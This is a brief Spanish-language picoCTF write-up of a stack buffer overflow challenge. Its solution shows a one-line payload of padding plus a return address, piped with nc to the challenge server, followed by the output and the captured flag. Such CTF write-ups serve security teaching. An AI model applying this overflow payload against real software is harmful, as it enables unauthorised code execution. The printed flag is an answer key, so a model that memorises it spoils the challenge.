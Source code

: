 
 
#### Description

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 60017`

## Pistas
This can be solved online if you don't want to do it by hand!



## Solución

``` 
┌──(kali㉿kali)-[~/hacking/Here]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 60017
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/hacking/Here]
└─$ 


```

## Bandera
Flag: picoCTF{addr3ss3s_ar3_3asy_a8284f4f}


## Notas adicionales


## Referencias
